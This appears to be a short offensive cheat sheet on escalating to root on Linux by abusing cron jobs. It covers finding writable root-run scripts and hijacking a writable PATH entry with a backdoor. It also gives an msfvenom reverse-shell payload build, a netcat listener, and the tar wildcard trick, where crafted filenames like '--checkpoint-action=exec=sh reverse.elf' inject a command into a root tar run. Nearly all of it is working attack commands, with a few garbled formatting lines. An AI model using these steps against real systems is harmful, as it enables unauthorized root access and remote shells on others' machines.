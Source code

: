 ## CRON Job Exploits

Requirement for successful escalation:

A cron job file/program/script should be running as higher privilege such as root
The file/program/script should be writable to replace the code with ours.
Finding Cron Job: 
Find suspicious cron job in following directories:
```
/etc/cron*
/etc/init.d
/etc/crontab #System wide cron job
/etc/cron.allow
/etc/cron.d
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/var/spool/cron #user crontabs
/var/spool/cron/crontabs #user crontabs
```
We can also find cron jobs with pspy:
```
./pspy64 -pf -i 1000
```
if a suspicious script found, check the file permission:
```
ls -la /path/script_name
```
Finally Edit, add reverse shell code!

## Path Env Variable in Config

If path env variable defined in the crontab file and if any of the path is writable, we can create our backdoor with same name that already exist.
```
$cat /etc/crontab
PATH=/path:/path2
***** root script.sh
```
Exploit it(Wait a minute to get shell):
```
cp backdoor.sh /path/script.sh
chmod +x /path/script.sh
Wildcard Exploit 
Exploiting wildcard with TAR.
```

## Generate Reverse shell with Metasploit:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=1337 -f elf -o reverse.elf
```
Listen to receive connection
```
nc -lvp 1337
```
Create The exploit:
```
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh reverse.elf"
```
Execute Tar:
```
tar czf /path/file_name.tar.gz *
```
